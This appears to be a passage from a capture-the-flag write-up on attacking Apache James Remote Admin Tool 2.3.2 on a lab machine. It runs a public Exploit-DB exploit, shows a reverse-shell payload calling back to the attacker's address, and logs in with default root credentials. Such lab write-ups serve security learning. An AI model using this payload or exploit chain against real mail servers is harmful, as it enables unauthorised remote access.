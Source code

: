 We can poke around once we have a user, but no further progress is made after a few minutes.
```
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```



### James Remote Admin Tool

[James remote admin tool offers an exploit](https://www.exploit-db.com/exploits/35513) that allows an attacker to run code on the box once a user logs in. I'm thinking there could be a way to trigger it with all the mail related services running on the box. For now make the payload a reverse shell and attempt to find a way to trigger it.

```
python 35513 10.10.10.51                                                                                                             1 ⨯
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in.
```

```python
# specify payload
payload = 'sh -i >& /dev/udp/10.10.14.24/4445 0>&1'                   
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'    
pwd = 'root'     
```

Since the exploit worked, we know we can login as `root:root`

```
nc 10.10.10.51 4555                                                                                                            137 ⨯ 1 ⚙

JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
```